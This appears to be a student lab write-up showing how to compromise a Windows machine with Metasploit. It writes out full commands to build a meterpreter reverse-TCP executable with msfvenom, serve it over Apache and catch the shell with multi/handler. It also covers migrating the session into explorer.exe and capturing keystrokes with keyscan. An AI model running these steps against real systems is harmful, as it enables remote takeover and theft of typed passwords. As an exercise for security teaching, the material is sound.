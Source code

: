 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

Developed By : santhosh kumar R
Register no : 212223100051


# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/738403cb-ddf8-4e5f-af5b-50f6531673bc)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/57c1fa09-ae80-401b-8422-41213b252aee)




copy the fun.exe into the apache /var/www/html folder
![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/379bf937-8d1d-47ca-9ca3-9dc95c1c0db5)


Start apache server
sudo systemctl apache2 start

![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/2a8aefe2-4668-467c-a3af-57a346f5d9da)



Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/e9323521-d25e-4418-a86b-66c9d872a4dd)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/08007393-8ae5-4095-a288-688b21b6654c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/a5afa68b-3991-4c94-a8d2-2f4c22bb656d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/6803b629-2f0b-46b6-a1b1-37333b5fa25e)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/c379f00d-1be8-4a25-8342-25ff9208cb8d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/b245228d-be3b-418f-8a4d-f0aeb3277dd1)



keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/bd229a9d-ec46-4590-a561-d81cca631f57)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
